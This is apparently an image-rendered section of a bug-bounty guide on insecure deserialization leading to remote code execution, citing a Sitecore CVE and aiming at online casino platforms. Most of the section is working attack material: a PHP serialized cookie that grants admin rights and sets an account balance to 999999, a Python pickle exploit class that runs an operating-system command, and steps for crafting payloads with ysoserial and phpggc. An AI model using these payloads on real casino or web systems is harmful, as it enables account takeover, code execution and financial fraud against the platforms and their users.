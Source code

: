
### 9. **Insecure Deserialization → RCE**

**Target:** Sitecore (CVE-2025-27218)  
**Severity:** CRITICAL  
**CVSS:** 10.0  
**Bounty:** $10,000-$50,000+

**Vulnerability:**
```http
GET /api/thumbnail
Headers:
  ThumbnailsAccessToken: <base64_serialized_object>
```

**Casino Platform Deserialization Vectors:**

1. **Session Cookies**
```python
# PHP unserialize() vulnerability
Cookie: session=O:4:"User":2:{s:5:"admin";b:1;s:7:"balance";i:999999;}
```

2. **Game State Persistence**
```python
# Python pickle vulnerability
import pickle
import base64

class Exploit:
    def __reduce__(self):
        return (exec, ("import os; os.system('whoami')",))

payload = base64.b64encode(pickle.dumps(Exploit()))
```

3. **Cache Data**
```java
// Java deserialization
ObjectInputStream ois = new ObjectInputStream(input);
Object obj = ois.readObject();  // Dangerous!
```

**Testing:**
```
1. Find serialized data in:
   - Cookies
   - Hidden form fields
   - API parameters
   - Local storage

2. Identify format:
   - PHP: O:4:"User"...
   - Java: rO0AB...
   - Python: \x80\x03...
   - .NET: AAEAAAD/////...

3. Craft payload using:
   - ysoserial (Java)
   - phpggc (PHP)
   - pickle exploits (Python)
```

---